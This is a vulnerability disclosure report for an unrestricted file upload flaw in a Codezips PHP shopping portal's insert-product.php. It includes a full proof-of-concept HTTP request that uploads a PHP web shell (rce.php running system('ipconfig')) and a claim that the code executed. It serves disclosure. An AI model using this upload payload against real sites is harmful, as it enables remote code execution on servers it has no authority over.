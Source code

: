 # Codezips Online Shopping Portal In PHP With Source Code 1.0 insert-product.php Unrestricted Upload
# NAME OF AFFECTED PRODUCT(S)
+ Online Shopping Portal In PHP With Source Code
## Vendor Homepage
+ https://codezips.com/php/online-shopping-portal-in-php-with-source-code/
# AFFECTED AND/OR FIXED VERSION(S)
## submitter
+ N3xu5Cr4ck37
## Vulnerable File
+ insert-product.php
## VERSION(S)
+ V1.0
## Software Link
+ https://codeload.github.com/codezips/online-shop-portal-php/zip/master
# PROBLEM TYPE
## Vulnerability Type
+ File upload
## Root Cause
+ In line 32 of the controller.php file, the input obtained through $-FILES is directly used to determine the storage location of the file without verification or cleaning. The specific code snippet is as follows:
+ ![1](https://github.com/user-attachments/assets/97f99074-311d-4a7d-9a76-8634c5697854)

## Impact
+ Attackers can exploit this vulnerability for unrestricted uploads, which may lead to file overwrite, file injection, directory traversal attacks, and denial of service attacks. Remote attacks may also result in RCE
# DESCRIPTION
+ N3xu5Cr4ck37 discovered that the file upload operation was triggered on line 80 of the 'insert-product.php' file and the uploaded file was received using the '$_FILES' variable. Due to the lack of appropriate input validation and cleaning, remote attackers can pass malicious payloads through this file upload feature, resulting in unrestricted file uploads, which may further lead to remote code execution (RCE).
# Vulnerability details and POC
## Payload
## 
```
POST /insert-product.php HTTP/1.1
Host: localhost:8116
Content-Length: 5354
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8116
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysRaDOvoNY4oUx6xW
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8116/insert-product.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundarysRaDOvoNY4oUx6xW
Content-Disposition: form-data; name="category"

7
------WebKitFormBoundarysRaDOvoNY4oUx6xW
Content-Disposition: form-data; name="subcategory"

14
------WebKitFormBoundarysRaDOvoNY4oUx6xW
Content-Disposition: form-data; name="productName"

11
------WebKitFormBoundarysRaDOvoNY4oUx6xW
Content-Disposition: form-data; name="productCompany"

11
------WebKitFormBoundarysRaDOvoNY4oUx6xW
Content-Disposition: form-data; name="productpricebd"

11
------WebKitFormBoundarysRaDOvoNY4oUx6xW
Content-Disposition: form-data; name="productprice"

11
------WebKitFormBoundarysRaDOvoNY4oUx6xW
Content-Disposition: form-data; name="productDescription"

11
------WebKitFormBoundarysRaDOvoNY4oUx6xW
Content-Disposition: form-data; name="productShippingcharge"

11
------WebKitFormBoundarysRaDOvoNY4oUx6xW
Content-Disposition: form-data; name="productAvailability"

In Stock
------WebKitFormBoundarysRaDOvoNY4oUx6xW
Content-Disposition: form-data; name="productimage1"; filename="rce.php"
Content-Type: image/jpeg

Node: Sorry, due to some encoding reasons, I am unable to use Markdown to store image data with attack payloads here. I will take a screenshot to show

<?php system('ipconfig'); ?>
------WebKitFormBoundarysRaDOvoNY4oUx6xW
Content-Disposition: form-data; name="productimage2"; filename="2.jpg"
Content-Type: image/jpeg

Node: Sorry, due to some encoding reasons, I am unable to use Markdown to store image data with attack payloads here. I will take a screenshot to show

------WebKitFormBoundarysRaDOvoNY4oUx6xW
Content-Disposition: form-data; name="productimage3"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundarysRaDOvoNY4oUx6xW
Content-Disposition: form-data; name="submit"


------WebKitFormBoundarysRaDOvoNY4oUx6xW--

```


+ ![2](https://github.com/user-attachments/assets/9374ede6-a6a0-47ed-85c0-efc268710748)

## I successfully executed the PHP script on the terminal
+ ![3](https://github.com/user-attachments/assets/b4a46c32-ccf6-4586-826f-55ada138b7c2)
